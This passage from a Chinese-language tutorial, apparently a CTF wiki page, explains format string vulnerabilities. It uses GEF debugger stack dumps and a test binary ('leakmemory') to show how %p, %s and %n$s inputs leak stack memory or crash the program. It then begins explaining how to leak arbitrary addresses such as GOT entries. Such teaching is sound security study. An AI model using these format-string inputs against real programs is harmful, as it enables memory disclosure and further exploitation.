 ```shell
0xffffcd08│+0x0c: 0x000000c2
0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd10│+0x14: 0xff007325 ("%s"?)	 ← $eax
0xffffcd14│+0x18: 0xffffce3c  →  0xffffd074  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
0xffffcd18│+0x1c: 0x000000e0
gef➤  c
Continuing.
%s[Inferior 1 (process 57488) exited normally]
```

可以看出，在第二次执行printf函数的时候，确实是将0xffffcd04处的变量视为字符串变量，输出了其数值所对应的地址处的字符串。

**当然，并不是所有这样的都会正常运行，如果对应的变量不能够被解析为字符串地址，那么，程序就会直接崩溃。**

此外，我们也可以指定获取栈上第几个参数作为格式化字符串输出，比如我们指定第printf的第3个参数，如下，此时程序就不能够解析，就崩溃了。

```shell
➜  leakmemory git:(master) ✗ ./leakmemory
%2$s
00000001.22222222.ffffffff.%2$s
[1]    57534 segmentation fault (core dumped)  ./leakmemory
```

**小技巧总结**

> 1. 利用%x来获取对应栈的内存，但建议使用%p，可以不用考虑位数的区别。
> 2. 利用%s来获取变量所对应地址的内容，只不过有零截断。
> 3. 利用%order$x来获取指定参数的值，利用%order\$s来获取指定参数对应地址的内容。

## 泄露任意地址内存

可以看出，在上面无论是泄露栈上连续的变量，还是说泄露指定的变量值，我们都没能完全控制我们所要泄露的变量的地址。这样的泄露固然有用，可是却不够强力有效。有时候，我们可能会想要泄露某一个libc函数的got表内容，从而得到其地址，进而获取libc版本以及其他函数的地址，这时候，能够完全控制泄露某个指定地址的内存就显得很重要了。那么我们究竟能不能这样做呢？自然也是可以的啦。

我们再仔细回想一下，一般来说，在格式化字符串漏洞中，我们所读取的格式化字符串都是在栈上的。那么也就是说，在调用输出函数的时候，其实，第一个参数的值其实就是该格式化字符串的地址。我们选择上面的某个函数调用为例

```shell
Breakpoint 1, __printf (format=0xffffcd10 "%s") at printf.c:28
28	in printf.c
──────────────────────────────────────────────────────────[ code:i386 ]────
   0xf7e44667 <fprintf+23>     inc    DWORD PTR [ebx+0x66c31cc4]
   0xf7e4466d                  nop    
   0xf7e4466e                  xchg   ax, ax
 → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
   ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
      0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
      0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
      0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
──────────────────────────────────────────────────────────────[ stack ]────
['0xffffccfc', 'l8']
8
0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10	 ← $esp
0xffffcd00│+0x04: 0xffffcd10  →  0xff007325 ("%s"?)
0xffffcd04│+0x08: 0xffffcd10  →  0xff007325 ("%s"?)
0xffffcd08│+0x0c: 0x000000c2
0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
0xffffcd10│+0x14: 0xff007325 ("%s"?)	 ← $eax
0xffffcd14│+0x18: 0xffffce3c  →  0xffffd074  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
0xffffcd18│+0x1c: 0x000000e0
```
